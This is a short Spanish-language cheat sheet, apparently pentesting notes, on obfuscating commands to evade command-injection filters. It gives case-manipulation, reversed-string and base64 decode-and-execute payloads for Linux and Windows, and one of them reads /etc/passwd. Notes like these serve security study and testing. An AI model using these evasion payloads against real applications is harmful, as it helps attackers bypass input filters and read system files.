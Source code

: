 ### Ofuscación de comandos

#### Manipulación de caracteres

Esto permite evadir un filtro que bloquee la palabra exacta whoami, ya que se envía una variante (WhOaMi) y se transforma en minúsculas antes de ejecutarse.

* En Windows:
    ```
    PS C:\> WhOaMi
    ```

* En Linux:
    ```
    $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
    ```

    ```
    $(a="WhOaMi";printf %s "${a,,}")
    ```

#### Comandos invertidos

Esto funciona porque el **shell interpreta el resultado de un subshell como un comando válido**.

* En Windows:
    ```
    "whoami"[-1..-20] -join ''
    ```
* En Linux:
    ```
    $(rev<<<'imaohw')
    ```

#### Comandos codificados

A veces, cuando intentamos inyectar un comando en una aplicación vulnerable nos topamos con filtros que bloquean ciertos caracteres (`|`, espacios, etc.) o incluso palabras completas (`whoami`, `cat`). El problema es que el comando llega "roto" al sistema y no se ejecuta.  

La idea es Codificar el comando en otro formato (base64, hex, etc.), y luego decodificarlo y ejecutarlo dentro del servidor.

#### Ejemplo en Linux

1. Tomamos el comando original (ej: `cat /etc/passwd | grep 33`) y lo codificamos en base64:  
    ```
    echo -n 'cat /etc/passwd | grep 33' | base64
    ```
    Resultado:  
    ```
    Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
    ```

2. Ahora, en lugar de enviar el comando original, enviamos uno que **decodifica y ejecuta**:  
    ```
    bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
    ```
    - `base64 -d` decodifica.  
    - `$()` ejecuta lo decodificado.  
    - `bash<<<` pasa el resultado directamente al shell.  
